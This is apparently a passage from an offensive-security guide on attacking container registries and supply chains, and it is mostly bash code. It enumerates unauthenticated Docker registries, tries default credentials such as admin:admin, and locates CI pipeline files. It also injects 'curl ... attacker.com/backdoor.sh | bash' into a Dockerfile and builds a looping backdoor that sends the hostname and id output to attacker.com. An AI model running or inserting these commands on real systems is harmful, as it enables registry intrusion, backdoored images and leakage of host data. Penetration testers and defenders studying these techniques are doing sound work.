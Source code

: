 ## Container Registry and Supply Chain Attacks

Container registries represent a critical component of the containerized application ecosystem and present unique attack vectors.

### Docker Registry Enumeration and Attacks

```bash
# Enumerate registry without authentication
curl -X GET http://registry:5000/v2/_catalog

# List tags for specific image
curl -X GET http://registry:5000/v2/image-name/tags/list

# Attempt to pull image
docker pull registry:5000/image-name:latest

# Extract image manifest
curl -X GET http://registry:5000/v2/image-name/manifests/latest
```

**Registry Authentication Bypass:**

```bash
# Try basic auth with common credentials
curl -X GET -u admin:admin http://registry:5000/v2/_catalog

# Pull image with authentication
docker login registry:5000 -u admin -p password
docker pull registry:5000/image-name:latest
```

### Container Supply Chain Attacks

Supply chain attacks target the process of building and distributing container images:

#### Exploiting CI/CD Pipelines

```bash
# Find and exploit build.yaml files
find . -name "build.yaml" -o -name "azure-pipelines.yml" -o -name ".gitlab-ci.yml" -o -name "Jenkinsfile"

# Example exploit by injecting commands in Dockerfile
# Original Dockerfile line:
# RUN npm install

# Modified for attack:
# RUN npm install && curl -s http://attacker.com/backdoor.sh | bash
```

#### Container Image Tampering

```bash
# Pull target image
docker pull target/webapp:latest

# Create a malicious layer
mkdir -p malicious_layer
cat > malicious_layer/backdoor.sh << 'EOF'
#!/bin/bash
while true; do
  curl -s http://attacker.com/$(hostname):$(id) || true
  sleep 60
done
EOF
chmod +x malicious_layer/backdoor.sh
```